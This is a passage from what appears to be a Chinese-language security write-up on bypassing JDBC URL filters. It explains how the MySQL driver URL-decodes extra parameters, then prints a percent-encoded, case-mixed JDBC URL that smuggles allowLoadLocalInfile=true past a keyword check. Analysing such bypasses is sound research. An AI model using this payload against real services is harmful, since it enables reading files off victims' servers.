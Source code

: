     此时 parsedProperties 属性为 null，从而调用 parseQuerySection 初始化额外参数，也就对额外参数进行了 url 解码  
    根据上面的分析，最终可以给出的特殊 jdbcurl
    
    ```bash
    %6adBc:mYsQl://127.0.0.1:3308/xxx?  %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65  =  %74%72%75%65#
    ```
    
    依旧可以做到利用
    

[![](assets/1707954725-6ed9a5b704d353d01f6f8a4da67b9d80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202100509-7dc797f2-c16f-1.png)
